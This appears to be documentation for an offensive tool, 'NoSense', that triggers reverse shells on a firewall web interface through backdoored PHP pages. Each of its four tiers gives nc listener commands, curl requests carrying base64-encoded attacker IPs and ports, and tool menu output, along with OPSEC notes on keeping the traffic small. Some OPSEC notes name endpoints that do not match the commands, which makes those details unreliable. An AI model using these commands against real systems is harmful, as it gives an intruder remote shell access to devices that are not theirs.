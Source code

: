 # Option 4: Reverse Shell Popper
- Doesn't require credentials to execute commands once uploaded.

## Skidy:
Enabled through option `3` at the main menu then selecting `Skidy`.

Manual:
```bash
$ nc -lvnp <PORT>
# Seperate terminal or background the above
$ curl -H 'Host: 192.168.190.190' 'http://192.168.190.190/RevShell.php?ip=192.168.190.154&port=4455'
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 1
LPORT PORT:
-> 4455
Want a NC listener? (1) Yes (2) No
-> 1
Starting reverse shel
```
### OPSEC:
1 request sent:
- 1 GET request sent to `/RevShell.php` this contains a GET parameters `ip` and `port` which will return a php reverse shell.

---
## Amatuer:
Enabled through option `3` at the main menu then selecting `Amatuer`.

Manual:
```bash
$ nc -lvnp <PORT>
# Seperate terminal or background the above
$ echo -n "<IP> <PORT">
# e.g:
$ echo -n "192.168.190.154 4455" | base64
# MTkyLjE2OC4xOTAuMTU0IDQ0NTU=
$ curl -H 'Host: 192.168.190.190' 'http://192.168.190.190/interfaces_ipv6.php?host=MTkyLjE2OC4xOTAuMTU0IDQ0NTU='
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 2
LPORT PORT:
-> 4455
Want a NC listener? (1) Yes (2) No
-> 1
Starting reverse shel
```
### OPSEC:
1 request sent:
- 1 GET request sent to `/vpn_l2tp_admin.php` this contains a `c` variable in the URL.
---
## Pro:
Enabled through option `3` at the main menu then selecting `Pro`.

Manual:
```bash
$ nc -lvnp <PORT>
# Seperate terminal or background the above
$ echo -n "<IP> <PORT">
# e.g:
$ echo -n "192.168.190.154 4455" | base64
# MTkyLjE2OC4xOTAuMTU0IDQ0NTU=
$ curl -X 'POST' -H 'Host: 192.168.190.190' -H 'Content-Type: application/x-www-form-urlencoded' --data-binary 'route=MTkyLjE2OC4xOTAuMTU0IDQ0NTU=' 'http://192.168.190.190/system_advanced_routes.php'
```
Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 3
LPORT PORT:
-> 4455
Want a NC listener? (1) Yes (2) No
-> 1
Starting reverse shel
```
### OPSEC:
1 request sent:
- 1 POST request sent to `/system_firewall_manager.php` this contains a `route` variable in the POST data.
---

## Leet:
Enabled through option `10` at the main menu.

`auth.inc` is altered to adjust the functionality of root `/` allowing for a reverse shell to be created. This takes a POST request and reads the `loggedin` of the request. This is a concatanation of IP and Port, this will return a php reverse shell.

Manual:

Would not advise doing manually due to CSRF tokens etc.

Through NoSense:
```bash
Pick One: 
(1) Skidy
(2) Amatuer
(3) Pro
(4) Leet
-> 4
LPORT PORT:
-> 4455
Want a NC listener? (1) Yes (2) No
-> 1
Executing
```

### OPSEC:
2 requests sent:
- 1 GET request to root `/` (this is to obtain the PHPSESSID and csrfMagicToken)
- 1 POST request to root `/` with csrfMagicToken and `loggedin` as variables in the POST data.
